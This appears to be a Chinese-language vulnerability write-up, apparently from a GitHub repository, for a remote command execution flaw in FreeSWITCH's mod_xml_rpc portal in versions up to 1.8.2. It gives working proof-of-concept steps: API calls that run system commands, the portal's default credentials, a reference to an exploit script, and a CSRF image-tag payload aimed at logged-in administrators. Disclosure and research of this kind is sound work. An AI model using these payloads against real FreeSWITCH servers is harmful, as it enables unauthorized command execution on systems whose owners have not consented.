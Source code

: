 影响版本:<=1.8.2

漏洞模块:mod_xml_rpc

我总共测试了三个版本（各版本下载地址http://files.freeswitch.org/）

 - 1.8.2
 - 1.5.15
 - 1.7.0

# 1.5.15

安装freeswitch1.5.15 Windows版本（http://files.freeswitch.org/windows/installer/x64/freeswitch.msi）

打开控制台，输入：load mod_xml_rpc（加载freeswitch portal）

访问本地8080端口，

打开http://127.0.0.1:8080/portal/index.html 

在控制台输入
``` api("system calc") ```
或
``` api("bg_system calc") ```

![1](/files/1.png)

也可以直接请求接口

http://127.0.0.1:8080/txtapi/system?calc
或
http://127.0.0.1:8080/api/system?calc

![1](/files/2.png)


# 1.7.0

![1](/files/3.png)

![1](/files/4.png)


# exp

freeswitch portal的默认账号密码是freeswitch:works

你可以使用`freeswitch_rce.py`自行检测。

或者使用csrf的方式向已登录的管理员发起攻击。

```
<img src="http://127.0.0.1:8080/api/system?calc">
```

![1](/files/5.png)